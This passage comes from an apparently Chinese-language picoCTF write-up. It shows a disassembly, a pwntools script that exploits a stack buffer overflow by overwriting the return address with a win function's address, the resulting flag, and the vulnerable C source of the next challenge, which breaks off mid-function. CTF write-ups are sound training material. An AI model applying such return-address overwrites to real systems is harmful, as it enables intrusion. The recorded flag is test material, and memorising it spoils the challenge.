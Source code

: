 ```bash
   0x08049264 <+110>:   call   0x8049060 <fgets@plt>
   0x08049269 <+115>:   add    esp,0x10
   0x0804926c <+118>:   sub    esp,0xc
   0x0804926f <+121>:   lea    eax,[ebp-0x4c]
   0x08049272 <+124>:   push   eax
   0x08049273 <+125>:   call   0x8049040 <printf@plt>
   0x08049278 <+130>:   add    esp,0x10
   0x0804927b <+133>:   nop
   0x0804927c <+134>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x0804927f <+137>:   leave
   0x08049280 <+138>:   ret
End of assembler dump.
```

找到了它的地址是 `0x080491f6`。那就開始構造 Exploit 吧。

```python
from pwn import *

r = remote("saturn.picoctf.net", 64447)

payload = b""
offset = 44
win_addr = 0x080491F6

payload += b"A" * offset
payload += p32(win_addr)
r.sendline(payload)
r.interactive()
```

```txt
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
```

# buffer overflow 2

和前兩題一樣，先看看代碼。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2)
{
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt", "r");
  if (f == NULL)
  {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
           "own debugging flag.\n");
    exit(0);
  }

  fgets(buf, FLAGSIZE, f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
```